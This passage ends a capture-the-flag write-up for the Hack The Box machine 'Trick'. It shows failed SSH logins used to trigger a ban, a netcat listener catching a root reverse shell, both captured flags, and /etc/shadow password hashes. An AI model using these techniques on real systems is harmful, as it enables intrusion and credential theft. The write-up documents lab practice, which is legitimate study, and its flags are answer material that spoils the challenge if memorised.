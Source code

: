Get banned and obtained the reverse shell:

```
┌──(kali㉿kali)-[~/…/HTB/B2R/Trick/loot]
└─$ ssh michael@trick.htb
michael@trick.htb's password:
Permission denied, please try again.
michael@trick.htb's password:
Permission denied, please try again.
michael@trick.htb's password:
michael@trick.htb: Permission denied (publickey,password).
...

┌──(kali㉿kali)-[~/…/HTB/B2R/Trick/loot]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.142] from (UNKNOWN) [10.10.11.166] 47804
id
uid=0(root) gid=0(root) groups=0(root)
/bin/bash
cat /root/root.txt
2631e8cadf4fb761541a8dc00810e01b
```

![Trick%2041aab3b0eaf94cfcb78db8d45d297196](../../zzz_res/attachments/Trick%2041aab3b0eaf94cfcb78db8d45d297196%2012.png)

# Trophy

![Trick%2041aab3b0eaf94cfcb78db8d45d297196](../../zzz_res/attachments/Trick%2041aab3b0eaf94cfcb78db8d45d297196%2013.png)

>[!success]
>**User.txt**
>780ff6978af3c93275156629a9c0562d

>[!success]
>**Root.txt**
>2631e8cadf4fb761541a8dc00810e01b

**/etc/shadow**

```bash
cat /etc/shadow | grep '\$'
root:$6$lbBzS2rUUVRa6Erd$u2u317eVZBZgdCrT2HViYv.69vxazyKjAuVETHTpTpD42H0RDPQIbsCHwPdKqBQphI/FOmpEt3lgD9QBsu6nU1:19104:0:99999:7:::
michael:$6$SPev7eFL5z0aKFf0$5iLTl9egsGGePEPUnNJlFyw8HHvTwqVC3/THKzW2YD5ZPnbkN7pSOeOkXe9uiUHfOJegJdYT0j3Z9pz.FSX2y0:19104:0:99999:7:::
```